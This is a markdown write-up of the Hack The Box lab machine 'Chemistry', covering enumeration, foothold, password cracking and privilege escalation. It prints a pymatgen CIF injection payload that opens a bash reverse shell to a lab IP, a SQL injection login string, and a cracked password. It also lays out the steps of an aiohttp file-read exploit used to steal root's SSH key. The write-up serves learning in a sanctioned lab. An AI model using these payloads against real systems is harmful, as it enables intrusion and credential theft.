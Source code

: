 # Hack The Box - Chemistry (10.10.11.38)

## Overview
**Chemistry** is a medium-difficulty Linux machine on Hack The Box. It leverages a file upload vulnerability in the `pymatgen` library, weak password reuse, and a local file inclusion in an aiohttp service to ultimately gain root access.

---

## 🔍 Enumeration

### Nmap Scan
```bash
nmap -p- chemistry.htb --min-rate 10000
```
**Open ports:**
- `22/tcp` - OpenSSH 8.2
- `5000/tcp` - Werkzeug HTTP server (Python 3.9.5)

```bash
nmap -p 22,5000 chemistry.htb -sCV -oN nmapscan -T5
```
**Notable results:**
- Werkzeug web app with title: `Chemistry - Home`

---

## 🌐 Web Enumeration
Accessing port **5000**, we find a web interface that allows uploading `.cif` (Crystallographic Information Format) files for analysis.

Attempted SQLi on login: `admin' OR 1=1 LIMIT 1;-- -` → Failed.

Example `.cif` file provided:
```
_cell_length_a    10.00000
loop_
 _atom_site_label
 _atom_site_fract_x
...
```

---

## ⚙️ Exploitation - RCE via CIF Upload

Research revealed a known vuln in `pymatgen`: [GHSA-vgv8-5cpj-qj2f](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)

Uploaded `.cif` with:
```python
[().__class__.__mro__[1].__subclasses__()...].load_module("os").system("bash -c 'bash -i >& /dev/tcp/10.10.14.12/1331 0>&1'")
```

Result: Reverse shell as user `app`

---

## 🐚 Shell Stabilization
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm-256color
```

---

## 🔍 Post-Exploitation - SQLite Hash Dump
Found: `/home/app/instance/database.db`

```bash
sqlite3 database.db
.tables
SELECT * FROM user;
```
Extracted user hashes → Cracked with CrackStation
- `rosa:unicorniosrosados` ✅

---

## 🔐 SSH as Rosa
```bash
ssh rosa@chemistry.htb
```
Got shell as `rosa`, no sudo privileges.

---

## 🕵️‍♀️ Privilege Escalation - LFI via aiohttp

Discovered `localhost:8080` running aiohttp.
```bash
ss -tuln | grep 8080
ssh -L 8081:127.0.0.1:8080 rosa@chemistry.htb
```

**CVE-2024-23334** → aiohttp LFI exploit:
- [PoC Script](https://raw.githubusercontent.com/TheRedP4nther/LFI-aiohttp-CVE-2024-23334-PoC/main/lfi_aiohttp.sh)

Used to read:
- `/root/root.txt`
- `/root/.ssh/id_rsa`

---

## 🧑‍💻 Root Access
```bash
ssh -i id_rsa root@localhost
```

---

## ✅ Summary
| Stage              | Technique                                       |
|-------------------|-------------------------------------------------|
| Foothold          | RCE via CIF upload (`pymatgen` vuln)            |
| User Escalation   | Cracked password from SQLite DB                 |
| Privilege Escalation | LFI in aiohttp (CVE-2024-23334)              |
| Root Access       | SSH via dumped `/root/.ssh/id_rsa`              |

---

## 🧠 Lessons Learned
- Always validate file parsing libraries for RCE vectors.
- aiohttp's path handling (pre-3.9.2) can be abused for LFI.
- Weak password reuse between DB and system accounts = easy win.

---

Report by inksec – https://github.com/inkedqt/
